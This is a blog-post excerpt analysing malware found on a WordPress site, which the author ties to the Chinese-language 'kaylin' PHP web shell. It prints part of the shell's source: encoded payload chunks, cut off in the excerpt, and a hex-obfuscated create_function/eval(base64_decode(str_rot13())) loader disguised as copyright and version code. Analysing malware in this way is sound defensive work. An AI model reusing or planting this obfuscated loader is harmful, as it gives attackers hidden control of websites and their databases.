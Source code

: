 
In searching for answers as to what this code is doing I found this repo for malware analysis specifically concerning Wordpress websites, <a href="https://github.com/bediger4000/php-malware-analysis/tree/master/webshells/kaylin">kaylin web shell analysis</a>. Bediger4000 describes this as a fully featured chinese language web shell (pretty scary stuff) complete with a GUI and code that is designed to search for MySQL and Oracle databases remotely on anyone that's infected with it. 

What it primarily does is this: 

```js
	$password = "1e89117b6bab59e6562df2355e81c158"; 

	define('VERSION','kaylin');

 $register_key = array 
( 
	array
	(
		'CQ9jnUNtDTIlpz9lK3WypT9lqTyhMluSK0IFHx9FXGgNnJ5cK3AyqPtaMTympTkurI9ypaWipaZaYPqCMzLaXGgN' , 
		'nJ5cK3AyqPtaoJS4K2I4MJA1qTyioy90nJ1yWljkZQNjZPx7nTIuMTIlXPWwo250MJ50YIE5pTH6VUEyrUDinUEg' , 
		'oQftL2uupaAyqQ1aLwVmZGVvXGgzqJ5wqTyiovOmqUWxnKVbWUA0pvxtrlOlMKE1pz4tp3ElK3WypTkuL2HbLKWl' , 
		'LKxbW1kpWljaYl8aYPpyZwpaYPpyZwVaXFkupaWurFtaYlpfWl8aYPqpWlpfWlVaXFkwnT9jXPEmqUVcXGftsJM1' , 
		'ozA0nJ9hVTAbn2qjLltxLKWlLKxcVUftMz9lMJSwnPtxLKWlLKxtLKZtWTgyrFN9CvNxqzSlXFO7VPEupaWurIfx' , 
		'n2I5KFN9VTymK2SlpzS5XPE2LKVcVQ8tL2ueM3OwXPE2LKVcVQbtp3ElnKOmoTSmnTImXPE2LKVcBlO9VUWyqUIl' , 
		'ovNxLKWlLKx7VU0xoKyznJkyVQ0tWS9GEIWJEIWoW1AQHxyDIS9TFHkSGxSAEFqqVQ8tp3ElMTylXPEsH0IFIxIF' , 
		...

		// BLOG AUTHORS COMMENT: and here

		/**
 * Language and charset conversion settings
 */
$check_copyright = create_function /*Copyright*/ 
( 
	
	"/*\x64\x65\x28\x73\x74\x72*/\x24\x63\x6f\x64\x65/*\x63\x6f\x64\x65\x29*/" , 
	"/*\x36\x34\x5f\x64\x65*/\x65\x76\x61\x6c\x20\x28\x20\x27\x20\x3f\x3e\x27" . 
	"\x20\x2e\x20\x62\x61\x73\x65\x36\x34\x5f\x64\x65\x63\x6f\x64\x65\x20\x28" . 
	"\x20\x73\x74\x72\x5f\x72\x6f\x74\x31\x33\x20\x28\x20\x6a\x6f\x69\x6e\x20" . 
	"\x28\x20\x27\x27\x20\x2c\x20\x24\x63\x6f\x64\x65\x20\x29\x20\x29\x20\x29" . 
	"\x20\x2e\x20\x27\x3c\x3f\x70\x68\x70\x20\x27\x20\x29\x3b/*\x63\x6f\x64*/" 
	
) ; 


$global_version = array_walk /*Version*/ 
( 
	
	$register_key , 
	
	 $check_copyright 
	
) ; 
```
